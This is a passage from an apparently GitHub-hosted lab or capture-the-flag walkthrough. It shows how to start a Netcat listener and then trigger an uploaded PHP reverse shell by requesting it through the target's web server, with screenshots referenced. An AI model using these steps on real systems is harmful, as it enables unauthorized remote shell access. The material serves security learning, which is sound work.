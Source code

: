 Our `reverse shell` file is there.

### Netcat

Time to set up the `Netcat`.

Type in new tab:

```
nc -lvnp {port you have chosen}
```

![Netcat](./Screenshots/basenetcat.png)

When all of the above is done it is finally time to execute `reverse shell`.

In your browser type:

```
http://{target ip}/_uploaded/{name of your reverse shell file}.php
```

![Netcat](./Screenshots/basenetcat2.png)

Looks like it has been executed.

Let's check the `Netcat` tab.

![Netcat](./Screenshots/basenetcat3.png)
